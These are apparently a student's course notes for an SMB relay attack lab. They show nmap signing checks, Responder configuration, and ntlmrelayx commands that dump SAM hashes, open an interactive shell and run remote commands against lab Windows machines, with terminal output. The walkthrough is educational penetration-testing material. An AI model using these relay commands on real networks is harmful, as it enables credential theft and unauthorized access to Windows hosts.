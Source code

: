 # VI. SMB Relay Attacks Lab

Make sure both Windows user machines are turned on.

In Kali, use the following command to run nmap with a script to check whether SMB signing is enabled or not:

```bash
nmap --script=smb2-security-mode.nse -p445 <WINDOWS IP> -Pn
```

`-Pn` is used to skip host discovery and treat all specified targets as online. This is useful when a normal nmap scan does not return any hosts.

```bash
┌──(kali㉿kali)-[~]
└─$ nmap --script=smb2-security-mode.nse -p445 10.0.2.10 -Pn
Starting Nmap 7.94 ( https://nmap.org ) at 2024-04-17 07:38 EDT
Nmap scan report for 10.0.2.10
Host is up (0.00098s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Nmap done: 1 IP address (1 host up) scanned in 0.24 seconds

┌──(kali㉿kali)-[~]
└─$ nmap --script=smb2-security-mode.nse -p445 10.0.2.11 -Pn   
Starting Nmap 7.94 ( https://nmap.org ) at 2024-04-17 07:37 EDT
Nmap scan report for 10.0.2.11
Host is up (0.00071s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Nmap done: 1 IP address (1 host up) scanned in 0.21 seconds
```

Open a text editor, enter IP of the `FRANKY` and `USOPP` User machines and save as `targets.txt`

Next edit the responder file using:

```bash
  sudo nano /etc/responder/Responder.conf
```

Make the following changes, `SMB = Off` , `HTTP = Off` and save.

![SMB_1](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/58301229-a2ec-4433-8e42-78321fe7f4f2)

Run responder with `sudo responder -I eth0 -dwPv`. Notice that HTTP Server and SMB Server are both off.

![SMB_2](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/1907a114-b902-4495-9b76-489e0d556c65)

Open a new terminal tab and run `ntlmrelayx.py -tf targets.txt -smb2support`. If [pimpmykali](https://github.com/Dewalt-arch/pimpmykali) is not installed. Then ntlmrelay can be run with `impacket-ntlmrelayx` followed by the tags and conditions i.e `sudo impacket-ntlmrelayx -tf targets.txt -smb2support`. Leave it running.

Login to the windows machine that has a single local administrator, login using those credentials and trigger an event like last time. Open explorer and enter the attacker machine (Kali) IP address in the search bar.

Finally, back in the ntlmrelay terminal, the SAM hashes for the Admin and Local admin accounts will be dumped. It’s a good idea to save these in a text file for later.

![SMB_3](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/91089df9-e721-4863-871e-e8befd459135)

There’s also the option of using the  `-i` tag to spawn an interactive shell when an event is triggered i.e `sudo impacket-ntlmrelayx -tf targets.txt -smb2support -i`

Copy the IP and port number of the windows machine and use them to start a netcat listener to spawn a shell.

```bash
┌──(kali㉿kali)-[~]
└─$ nc 127.0.0.1 11000
Type help for list of commands
# shares
ADMIN$
C$
IPC$
```

Another way to utilize this tool to run and execute commands with a relay attack. 

e.g `sudo impacket-ntlmrelayx -tf targets.txt -smb2support -c "whoami"` .

This is just a simple example, but this can be used to execute more malicious commands if need be.
